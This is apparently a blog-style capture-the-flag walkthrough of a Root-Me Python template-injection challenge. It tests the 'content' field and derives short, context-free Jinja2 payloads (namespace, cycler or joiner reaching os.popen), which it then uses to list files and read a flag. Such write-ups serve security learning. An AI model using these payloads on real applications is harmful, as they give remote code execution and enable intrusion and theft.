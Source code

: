 +++ 
title = "From Detection to Flag: A Deep Dive into Jinja2 SSTI on Root-Me" 
description = "A step-by-step walkthrough of solving a Python SSTI challenge on Root-Me, from initial detection to crafting a context-free Jinja2 payload for code execution." 
date = "2025-09-11" 
draft = false 
tags = ['ssti', 'ctf', 'python', 'jinja2', 'root-me', 'walkthrough'] 
+++

+++ 
title = "From Detection to Flag: A Deep Dive into Jinja2 SSTI on Root-Me"
description = "A step-by-step walkthrough of solving a Python SSTI challenge on Root-Me, from initial detection to crafting a context-free Jinja2 payload for code execution."
date = "2025-09-11"
draft = false
tags = ['ssti', 'ctf', 'python', 'jinja2', 'root-me', 'walkthrough']
+++

I recently tackled a fun Server-side Template Injection (SSTI) challenge on Root-Me and wanted to document my process. This post follows my journey from initial detection to crafting a reliable, context-free payload to gain code execution.

## The Challenge: Python SSTI Introduction

The goal was to solve the "Python - Server-side Template Injection Introduction" challenge on [Root-me.org](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction?lang=en).

### << SETUP >>

I started by loading the challenge environment and intercepting the requests using Caido. The application allows you to preview content submitted through a form.

### << DETECT >>

The core of the application is a POST request to `/preview` with `title` and `content` parameters.

```http
POST /preview HTTP/1.1
Host: challenge01.root-me.org:59074
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

title=hi&content=hi&button=yes
```

To test for SSTI, I sent a simple mathematical expression, `{{7*7}}`, in both the `title` and `content` fields. The server's response was revealing:

```json
{
    "content": "49",
    "title": "{{7*7}}"
}
```

The `content` field was processed, while the `title` field was not. This confirmed an SSTI vulnerability in the `content` parameter. To be certain about the template engine, I tried two different payloads:

1.  `{{3 * 3}}` resulted in `9`.
2.  `{{'3' * 3}}` resulted in `333`.

This behavior is characteristic of Jinja2, confirming my suspicion.

### << EXPLORE >>

With the vulnerability confirmed, the next step was to find a way to execute shell commands. My goal was to access the `os` module in Python.

#### The Problem with Context-Dependent Payloads

In previous challenges, like one from picoCTF, I had used "egg hunter" payloads that depend on the application's context. For example:

```python
{{ ''.__class__.__base__.__subclasses__()[356]('ls -la', shell=True, stdout=-1).communicate()[0].decode() }}
```

The problem with this method is that the index for `popen` (`[356]`) is not consistent across different environments. It's a brittle approach. I wanted to find a more reliable, context-independent payload.

#### The Quest for a Context-Free Payload

I drew inspiration from the GreHack 2021 talk by @podalirius_, "[Optimizing Server Side Template Injections payloads for jinja2](https://www.youtube.com/watch?v=ahBxZkOTdg0)", which discusses creating context-free payloads.

The ideal payload should be:
1.  **Context-free:** It shouldn't rely on any data passed into the `.render()` method.
2.  **Short:** Shorter is always better.

The key is the `self` object, which is a reference to the template itself and is accessible even with an empty `.render()` call.

```python
>>> jinja2.Template("""I am {{ self }}""").render()
'I am <TemplateReference None>'
```

From this `self` object, we should be able to find a path to the `os` module.

#### Finding the Path with BFS

Python's objects and attributes can be thought of as a graph. To find the shortest path from our starting object (`jinja2`) to our target (`os`), we can use a Breadth-First Search (BFS). This helps avoid long exploration traps and cycles.

During this exploration, I got a bit confused about the distinction between objects, attributes, and modules in Python. They all felt very similar. I got a great explanation:

> **You're right to feel they're similar—in Python, almost everything, including modules and functions, is fundamentally an object. The difference lies in their role and relationship to each other.**
> 
> **Object (obj):** The most basic building block. An instance of a class (e.g., an integer, a list, a function, a module).
> 
> **Attribute (attr):** A name that belongs to an object, accessed with the dot notation (`parent_object.attribute`). It can be a variable or a method.
> 
> **Module:** A specific type of object whose main job is to organize Python code, acting as a namespace for its attributes.

With that clarified, I wrote a small BFS script (`audit.py`) to search for paths from the `jinja2` object to the `os` module. It found several promising paths:

```bash
$ ./audit.py jinja2
Searching for 'os' from 'jinja2' (max depth: 5)...
jinja2.bccache.fnmatch.os
jinja2.bccache.os
jinja2.bccache.tempfile._os
jinja2.environment.os
jinja2.loaders.os
jinja2.utils.os
```

This confirmed that a path exists. Now, how to get there from `self`?

#### From `self` to `os`

First, I inspected the `self` object using `dir()`:

```python
>>> jinja2.Template("""{{ f(self) }}""").render(f=dir)
"['__class__', '__delattr__', ..., '_TemplateReference__context']"
```

Most attributes were internal dunder methods, but `_TemplateReference__context` looked interesting.

```python
>>> jinja2.Template("""{{ self._TemplateReference__context }}""").render()
"<Context {'range': ..., 'cycler': <class 'jinja2.utils.Cycler'>, 'joiner': <class 'jinja2.utils.Joiner'>, 'namespace': <class 'jinja2.utils.Namespace'>} of None>"
```

This context object gives us access to several Jinja2 utility classes like `cycler`, `joiner`, and `namespace`. My BFS search showed that `jinja2.utils.os` was a valid path. Since `namespace` is in `jinja2.utils`, I could traverse from there to the `os` module using Python's object introspection capabilities (`__init__.__globals__`).

This gives us a reliable path to `os`:

```python
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

Even better, since `namespace`, `cycler`, and `joiner` are available in the global context of the template, we can access them directly without referencing `self`. This leads to a much cleaner and shorter payload.

#### The Final Gadgets

This discovery yielded three reliable, context-free gadgets for Jinja2 SSTI:

```python
{{ namespace.__init__.__globals__.os.popen("id").read() }}
{{ cycler.__init__.__globals__.os.popen("id").read() }}
{{ joiner.__init__.__globals__.os.popen("id").read() }}
```

### << EXPLOIT >>

Now it was time to use these gadgets on the challenge server. I sent the payload in the `content` parameter:

```
content={{ namespace.__init__.__globals__.os.popen("ls -la").read() }}
```

The server responded with a directory listing, and I spotted a `.passwd` file.

#### A Failed Experiment: `popen` vs. `Popen`

To get a nicely formatted output, I first tried to use the `communicate()` method, which I had used in the past:

```python
{{ namespace.__init__.__globals__.os.popen('id', shell=True, stdout=-1).communicate()[0].decode() }}
```

This resulted in an error: `TypeError: popen() got an unexpected keyword argument 'shell'`.

This was a key learning moment. I realized I was confusing `os.popen()` with the more powerful `subprocess.Popen`. The `os.popen` function is simpler and doesn't accept those arguments. The payload I used in the picoCTF challenge was accessing `subprocess.Popen`, not `os.popen`.

#### Getting the Flag

To solve the formatting issue and read the file, I switched to `readlines()`, which returns the output as a list of strings, preserving newlines.

**Final Payload:**

```
content={{ namespace.__init__.__globals__.os.popen('cat .passwd').readlines() }}
```

**Response:**

```json
{
    "content": "['Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!\n']",
    "title": "hi"
}
```

Success! I found the flag.

## Final Thoughts

This challenge was a great exercise in moving beyond simple, context-dependent SSTI payloads. The journey was just as important as the result. By hitting a wall with `os.popen`, taking the time to understand the object graph with BFS, and clarifying fundamental Python concepts, I was able to build a short, reliable, and context-free gadget for code execution. It highlights the importance of deep-diving into the framework you're targeting and not being afraid to go back to the basics.
